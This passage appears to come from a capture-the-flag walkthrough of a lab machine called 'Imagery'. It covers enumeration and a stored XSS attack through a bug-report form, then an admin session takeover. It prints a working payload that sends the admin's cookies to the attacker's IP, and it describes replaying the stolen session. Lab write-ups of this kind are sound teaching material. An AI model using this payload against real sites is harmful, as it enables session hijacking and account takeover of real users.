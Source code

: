 Nothing useful was found by **dirsearch**, and the same results were observed during our manual enumeration.

<img width="1719" height="854" alt="image 1" src="https://github.com/user-attachments/assets/be60d271-4c4f-4ae3-9c2d-a28d9c6ece44" />

unauthorized users would be able to register first before be able to logged in. Once logged in user given session token. 

<img width="1721" height="245" alt="417fbf5d-35e2-4e69-a52d-9d2cb67e9e53" src="https://github.com/user-attachments/assets/bca870f4-b394-4b82-99af-5f52e45effff" />

<img width="1706" height="775" alt="image 2" src="https://github.com/user-attachments/assets/ee811994-ab17-460d-b67a-d62576ec100a" />

Since authenticated users can upload images and report bugs, the application may be exposed to two main vulnerabilities: [**File Upload**](https://portswigger.net/web-security/file-upload) and [**Cross-Site Scripting (XSS)**](https://portswigger.net/burp/documentation/desktop/testing-workflow/input-validation/xss).** 

<img width="1715" height="773" alt="image 3" src="https://github.com/user-attachments/assets/1ec60a39-0ac2-425e-92c6-88ab170404c0" />
<img width="1716" height="778" alt="image 4" src="https://github.com/user-attachments/assets/d5993018-f5ff-4179-877b-cec2bc51fc48" />

### Session Hijacking

Upon review, the image upload function includes extension filtering, and bug reports are reviewed by an administrator before processing.

<img width="768" height="122" alt="558aded8-2f86-46db-a54f-d94fc25fab88" src="https://github.com/user-attachments/assets/171d6ce1-4df6-4e15-a317-bcad9c068ae5" />

I would say this could be [Stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored). So we might need to steal admin cookies and [hijack their session](https://www.invicti.com/learn/session-hijacking/).

Payload used: 

```bash
<img src=x onerror=this.src='http://10.10.14.19?cookie='+document.cookie>
```

Wait a few sec and **BOOM**: 

<img width="1697" height="848" alt="image 5" src="https://github.com/user-attachments/assets/c6100caa-a2b0-434f-92b0-8a6b6adffd78" />

Change the session cookie with our admin cookie and refresh, we are logged in as **Admin**

<img width="850" height="115" alt="4c8a7a43-286b-43ab-9c69-c66125d1612e" src="https://github.com/user-attachments/assets/a0cda018-e9ed-4182-9815-6c4777b159d7" />

<img width="858" height="350" alt="image 6" src="https://github.com/user-attachments/assets/96508184-9a55-4043-8606-05eb024547c2" />

<img width="850" height="435" alt="caaec4b1-b6f2-4969-8809-9a5aa2b5dd99" src="https://github.com/user-attachments/assets/33955cc7-f1c1-47e6-84ad-ee13d2c2cc6f" />

Downloaded the `admin@imagery.htb` and `testuser@imagery.htb` log while reviewing network requests.

<img width="643" height="349" alt="d8208736-8c00-4b5f-8b5c-c88e2f9677c3" src="https://github.com/user-attachments/assets/b1fbcd51-8c0f-407b-9f98-0094617f1d75" />

Admin log gave us nothing much
